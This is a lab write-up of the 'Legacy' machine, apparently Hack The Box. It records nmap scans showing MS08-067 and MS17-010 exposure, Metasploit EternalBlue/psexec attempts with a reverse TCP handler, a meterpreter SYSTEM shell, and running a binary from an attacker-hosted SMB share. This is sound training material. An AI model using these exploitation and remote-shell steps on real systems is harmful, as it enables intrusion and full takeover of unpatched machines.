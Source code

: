 # Legacy

## Machine Info

![Legacy](./Legacy.assets/Legacy.png)

## Recon

### port

- nmap

```console
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows XP SP2 or SP3 (96%), Microsoft Windows XP SP3 (96%), Microsoft Windows Server 2003 SP1 or SP2 (94%), Microsoft Windows Server 2003 SP2 (94%), Microsoft Windows Server 2003 SP1 (94%), Microsoft Windows 2003 SP2 (94%), Microsoft Windows 2000 (93%), Microsoft Windows 2000 SP4 (93%), Microsoft Windows XP Professional SP2 or Windows Server 2003 (93%), Microsoft Windows 2000 SP3/SP4 or Windows XP SP1/SP2 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp
```

- nmap with vuln scripts: `nmap -p445 --script smb-vuln* 10.10.10.4`
  - CVE-2008-4250
  - CVE-2017-0143

```console
Host script results:
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

| smb-vuln-ms08-067:
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
```

## Foothold

### CVE-2017-0143

Payloads:

- https://github.com/c0d3cr4f73r/MS17-010_CVE-2017-0143
- https://github.com/worawit/MS17-010
- https://github.com/helviojunior/MS17-010

The manual exploit process:

1. msfvenom to create payload
2. ms17-010 exploit code executed to upload payload
3. use nc or msf to catch the reverse shell

However, in 2024 the exploit code of python2.7 is really really far away from deprecated and many packages are not maintained at all. python2.7 is unable to be installed at the moment because dsinternals does not adpat to python 2.7

```console
└─╼$ python2.7 -m pip install impacket
DEPRECATION: Python 2.7 reached the end of its life on January 1st, 2020. Please upgrade your Python as Python 2.7 is no longer maintained. pip 21.0 will drop support for Python 2.7 in January 2021. More details about Python 2 support in pip can be found at https://pip.pypa.io/en/latest/development/release-process/#python-2-support pip 21.0 will remove support for this functionality.
Defaulting to user installation because normal site-packages is not writeable
Collecting impacket
  Using cached impacket-0.11.0.tar.gz (1.5 MB)
Collecting pyasn1>=0.2.3
  Using cached pyasn1-0.5.1-py2.py3-none-any.whl (84 kB)
Collecting pycryptodomex
  Using cached pycryptodomex-3.20.0-cp27-cp27mu-manylinux2010_x86_64.whl (2.3 MB)
Collecting pyOpenSSL>=21.0.0
  Using cached pyOpenSSL-21.0.0-py2.py3-none-any.whl (55 kB)
Collecting six
  Using cached six-1.16.0-py2.py3-none-any.whl (11 kB)
Collecting ldap3!=2.5.0,!=2.5.2,!=2.6,>=2.5
  Using cached ldap3-2.9.1-py2.py3-none-any.whl (432 kB)
Collecting ldapdomaindump>=0.9.0
  Using cached ldapdomaindump-0.9.4-py2-none-any.whl (18 kB)
Collecting flask>=1.0
  Using cached Flask-1.1.4-py2.py3-none-any.whl (94 kB)
Collecting future
  Using cached future-0.18.3.tar.gz (840 kB)
Collecting charset_normalizer
  Using cached charset-normalizer-3.0.1.tar.gz (92 kB)
Collecting dsinternals
  Using cached dsinternals-1.2.4.tar.gz (174 kB)
ERROR: Package 'dsinternals' requires a different Python: 2.7.18 not in '>=3.4'
```

The metasploit method:

- `windows/smb/ms17_010_eternalblue` is for x64 machine
- `windows/smb/ms17_010_psexec` is capable to exploit x86 machine (as this machine is Windows XP)

```console
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.14.14:4444
[*] 10.10.10.4:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.4:445        - Host is likely VULNERABLE to MS17-010! - Windows 5.1 x86 (32-bit)
[*] 10.10.10.4:445        - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.4:445 - The target is vulnerable.
[-] 10.10.10.4:445 - Exploit aborted due to failure: no-target: This module only supports x64 (64-bit) targets
[*] Exploit completed, but no session was created.
```

![image-20240208083633916](./Legacy.assets/image-20240208083633916.png)

![image-20240208083743840](./Legacy.assets/image-20240208083743840.png)

And we are already have the system privilege:

```console
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreatePermanentPrivilege
SeCreateTokenPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeLoadDriverPrivilege
SeLockMemoryPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTcbPrivilege
SeUndockPrivilege
```

## Exploit Chain

port scan -> smb vuln scan -> two cve -> system shell

## Beyond Root

**No whoami ???**

1. local smb

```console
└─╼$ sudo impacket-smbserver qwe ~/pwk/tools
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.4,1036)
[*] AUTHENTICATE_MESSAGE (\,LEGACY)
[*] User LEGACY\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa

----------------------------------------------------------------------

C:\WINDOWS\system32>\\10.10.14.14\qwe\whoami.exe
NT AUTHORITY\SYSTEM
```

2. msf upload

```console
meterpreter > upload ~/pwk/tools/whoami.exe
[*] Uploading  : /home/qwe/pwk/tools/whoami.exe -> whoami.exe
[*] Uploaded 65.00 KiB of 65.00 KiB (100.0%): /home/qwe/pwk/tools/whoami.exe -> whoami.exe
[*] Completed  : /home/qwe/pwk/tools/whoami.exe -> whoami.exe
meterpreter > pwd
C:\WINDOWS\system32
meterpreter > back
[-] Unknown command: back
meterpreter > shell
Process 1472 created.
Channel 3 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>whoami
whoami
NT AUTHORITY\SYSTEM
```

